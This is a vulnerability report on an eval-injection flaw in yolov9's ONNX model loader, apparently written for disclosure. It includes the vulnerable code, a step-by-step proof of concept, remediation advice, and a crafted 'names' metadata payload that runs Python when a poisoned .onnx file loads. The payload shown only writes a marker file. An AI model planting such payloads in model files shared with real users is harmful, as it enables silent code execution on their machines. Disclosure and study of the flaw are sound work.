










# WongKinYiu yolov9 (through master commit 5b1ea9a) — Arbitrary Code Execution via eval() of ONNX Model Metadata in models/common.py DetectMultiBackend

## Summary
WongKinYiu yolov9 (all revisions carrying the ONNX Runtime branch of `DetectMultiBackend`, inherited from the yolov5 lineage; verified at master HEAD `5b1ea9a8b3f0ffe4fe0e203ec6232d788bb3fcff`) is affected by arbitrary code execution in the model-loading component `models/common.py`. When a user runs the documented `python detect.py --weights <file>.onnx --source <image>` command on a crafted weights file, the `names` entry of the file's ONNX `metadata_props` map — attacker-controlled free text embedded in the model file — is passed to `eval()` and executed as a Python expression at model-load time, in the victim's process and with the victim's privileges. The payload can return a well-formed class-name dictionary, so the run then completes normally and the user sees nothing unusual.

## Affected Product
| Field | Value |
|---|---|
| Vendor | WongKinYiu (yolov9 project) |
| Product | yolov9 (https://github.com/WongKinYiu/yolov9) |
| Affected versions | all revisions carrying the ONNX Runtime branch of `DetectMultiBackend`, through master HEAD `5b1ea9a8b3f0ffe4fe0e203ec6232d788bb3fcff` (2024-06-10, the latest commit at reporting time); the identical line is inherited from yolov5's `DetectMultiBackend` and also ships in yolov5-lineage fork copies (e.g. spmallick/learnopencv, FedML-AI/FedML, VoltaML/voltaML, z1069614715/objectdetection_script, TingsongYu/PyTorch-Tutorial-2nd) |
| Component | `models/common.py`, `DetectMultiBackend.__init__`, ONNX Runtime branch, lines 729–733 |
| Platform | OS-independent (pure Python); verified on Ubuntu 24.04 (WSL2), Python 3.12.3, torch 2.4.1+cpu, onnxruntime 1.19.2 (CPUExecutionProvider) |
| Vulnerability type | CWE-95: Eval Injection (also CWE-94: Code Injection) |

## Root Cause
**Location:** `models/common.py:729-733` (`DetectMultiBackend.__init__`, ONNX Runtime branch)

`DetectMultiBackend` is yolov9's universal weights loader: it sniffs the file suffix and dispatches to the matching backend. On the ONNX branch it asks onnxruntime for the model's metadata map — a documented, free-text annotation slot of the ONNX format that whoever produces or edits the `.onnx` file controls completely — and then passes one of those strings, `names`, directly to `eval()` with the module's own globals. There is no allowlist, no `ast.literal_eval`, no type or shape check between reading the map and executing it. The repository's own TFLite branch in the same file (`models/common.py:832`) uses `ast.literal_eval` for the same kind of metadata, so the safe form was known to the authors.

```python
# models/common.py:729-733 (master 5b1ea9a8b3f0ffe4fe0e203ec6232d788bb3fcff)
session = onnxruntime.InferenceSession(w, providers=providers)
output_names = [x.name for x in session.get_outputs()]
meta = session.get_modelmeta().custom_metadata_map  # metadata
if 'stride' in meta:
    stride, names = int(meta['stride']), eval(meta['names'])  # <-- SINK: attacker-controlled string executed
```
```python
# sibling branch that does it right, same file: models/common.py:832 (TFLite)
meta = ast.literal_eval(model.read(meta_file).decode('utf-8'))
```

## Proof of Concept
### Prerequisites
- The victim runs yolov9's documented detection CLI on a weights file the attacker supplied (model zoo download, HuggingFace, a colleague's ONNX export — the ordinary way people consume detection weights).
- No privileges, no network access from the payload, no special conditions: the entire attacker capability is one `.onnx` file.

### Steps to Reproduce
1. Build the crafted weights file with the official ONNX writer API only (`onnx.helper` / `onnx.save`): a valid, loadable YOLO-shaped graph (input `images[1,3,640,640]`, output `output0[1,84,8400]` of zeros; the graph itself is entirely benign) plus two `metadata_props` entries — `stride = "32"` and `names = "(__import__('pathlib').Path('/out/pwned_by_w11_yolov9_onnx_meta').write_text('PWNED_BY_W11_YOLOV9_ONNX_META'), {0: 'person'})[1]"`. The generator script is `poc/build_artifact.py`; it produces `evil.onnx` (sha256 `194ab8682a7043c5cd6dbee922141639bc6de15571d150c9b04c8e8f6d657874`), `benign.onnx` (same file with `names = "{0: 'person'}"`, negative control A, sha256 `4ebd3c1164a52df8c592c5cf89375506a7f5d754994abfc89c151388c5ec0c1d`) and `nometa.onnx` (no `stride` entry, negative control B, sha256 `41c650302380c3242569c5e583cabc758dcd2ef5e1019406008f6320f4397ab9`). The build is deterministic: the artifacts produced for this report are byte-identical to the ones from the original Docker-based validation run.


The reproduction environment: WSL2 Ubuntu 24.04 shell, pinned yolov9 checkout (`yolov9-5b1ea9a`), dedicated venv `venv-yolov9-meta`, Python 3.12.3.


`python build_artifact.py artifact` builds the three `.onnx` files with the official ONNX writer API and prints their sha256 digests (evil `194ab868…`, benign `4ebd3c11…`, nometa `41c65030…`).

2. Place the pinned source checkout at commit `5b1ea9a8b3f0ffe4fe0e203ec6232d788bb3fcff` (codeload tarball `poc/yolov9-5b1ea9a.tar.gz`).


The pinned source tree (`~/poc-work/yolov9-5b1ea9a`) with `detect.py`, `models/`, `data/`.

3. Confirm the sink is present at the documented line.


`grep -n "eval(meta" models/common.py` → line `733: stride, names = int(meta['stride']), eval(meta['names'])`.

4. Show that the payload really travels in the standard metadata slot: read the file back through the official onnxruntime API — the parser behaves exactly as specified and hands the map back as an ordinary `Dict[str, str]`.


`onnxruntime.InferenceSession('../artifact/evil.onnx').get_modelmeta().custom_metadata_map` returns `{'names': "(__import__('pathlib').Path('/out/pwned_by_w11_yolov9_onnx_meta').write_text('PWNED_BY_W11_YOLOV9_ONNX_META'), {0: 'person'})[1]", 'stride': '32'}` — a plain data dict that yolov9 then eval()s.

5. Negative control A — run the documented CLI on the benign artifact: `python detect.py --weights ../artifact/benign.onnx --source data/images/horses.jpg --device cpu --nosave`.


The model loads "for ONNX Runtime inference", inference completes normally ("no detections"), and nothing is written to `/out`.

6. Negative control B — same CLI on the artifact without `stride` metadata, pointing the names fallback at the repo's own dataset config: `python detect.py --weights ../artifact/nometa.onnx --source data/images/horses.jpg --data data/coco.yaml --device cpu --nosave`. (Without metadata the loader falls back to the dataset yaml for class names; the pinned snapshot does not ship the `data/coco128.yaml` default, so `--data data/coco.yaml` is given to make the run complete normally. Either way the eval branch at :732 is never taken.)


The eval branch never executes; inference completes normally.

7. Verify no marker file exists after both controls: `ls -l /out` → empty.


`ls -l /out` → `total 0` — neither control produced the marker file.

8. Attack — run the same ordinary user command on the poisoned artifact: `python detect.py --weights ../artifact/evil.onnx --source data/images/horses.jpg --device cpu --nosave`.


While printing "Loading ../artifact/evil.onnx for ONNX Runtime inference...", `eval(meta['names'])` executes the payload; the run then completes normally ("no detections") — no error, no warning, no visible signal.

9. Verify the code execution side effect: `ls -l /out` and read the marker file.


`ls -l /out` now shows `pwned_by_w11_yolov9_onnx_meta` (29 bytes), created by the eval'd payload at model-load time.


`cat /out/pwned_by_w11_yolov9_onnx_meta` → `PWNED_BY_W11_YOLOV9_ONNX_META`. The payload returned the valid class dict `{0: 'person'}`, so detection carried on as if nothing happened.

### Expected vs Actual
- Expected: model metadata is data; the loader must interpret the `names` annotation as a literal (a `list[str]` / `dict[int, str]` of class names) and never execute it.
- Actual: the `names` string is executed with `eval()` in the product process. Arbitrary Python expressions embedded in a shared `.onnx` file run at model-load time, and because the payload returns a well-formed names dict the detection run completes normally with no visible signal.

### Sanitized PoC input
```text
ONNX metadata_props (evil.onnx, sha256 194ab8682a7043c5cd6dbee922141639bc6de15571d150c9b04c8e8f6d657874):
  key "stride" -> value "32"
  key "names"  -> value "(__import__('pathlib').Path('/out/pwned_by_w11_yolov9_onnx_meta').write_text('PWNED_BY_W11_YOLOV9_ONNX_META'), {0: 'person'})[1]"

victim command:
  python detect.py --weights evil.onnx --source data/images/horses.jpg --device cpu

side effect:
  file /out/pwned_by_w11_yolov9_onnx_meta created, content: PWNED_BY_W11_YOLOV9_ONNX_META
```

## Impact
- Confidentiality: High — arbitrary Python execution gives full access to the victim's data (files, credentials, environment) with the victim's privileges.
- Integrity: High — arbitrary file write/modify in the victim's account, demonstrated here by the payload writing a marker file.
- Availability: High — the payload can equally terminate or destabilize the process.
- Scope: code execution in the product process at model-load time; the marker-file effect in this PoC is inert by design.
- The practical delivery vector is the ordinary weights-sharing workflow (model zoo, HuggingFace, colleague export), and the ONNX export path is the one commonly recommended to avoid the `.pt` pickle risk — so this undermines the very safety expectation users switch to ONNX for.

## Remediation
1. Replace `eval(meta['names'])` with `ast.literal_eval`, exactly as the TFLite branch at `models/common.py:832` already does; `names` is only ever a list or dict of class names, so a literal parser is sufficient and total.
2. Validate the parsed value (must be `list[str]` or `dict[int, str]`, consistent with the model's class count) and fall back to the dataset config otherwise; apply the same treatment to `int(meta['stride'])` (a malformed value currently raises an uncaught `ValueError`).
3. Audit every other `DetectMultiBackend` backend branch that consumes file metadata.
4. Consider refusing metadata from files of unknown provenance unless an explicit `--trust-metadata` flag is passed, so the safe default is to ignore annotations.

## References
- Source repository: https://github.com/WongKinYiu/yolov9
- Sink at pinned commit: https://github.com/WongKinYiu/yolov9/blob/5b1ea9a8b3f0ffe4fe0e203ec6232d788bb3fcff/models/common.py#L729-L733
- Safe sibling branch (TFLite): https://github.com/WongKinYiu/yolov9/blob/5b1ea9a8b3f0ffe4fe0e203ec6232d788bb3fcff/models/common.py#L832
- Third-party writeup on the same unsafe pattern in the yolov5 lineage (Orbis AppSec; exact permalink could not be retrieved at report time — search engines index orbisappsec.com with this content): https://orbisappsec.com
- CWE-95: https://cwe.mitre.org/data/definitions/95.html ; CWE-94: https://cwe.mitre.org/data/definitions/94.html
- Vendor advisory: `[none]`
- No CVE number assigned yet; no public disclosure of this specific issue in yolov9 was found at reporting time (this is not a novelty claim — no exhaustive prior-art search was performed).

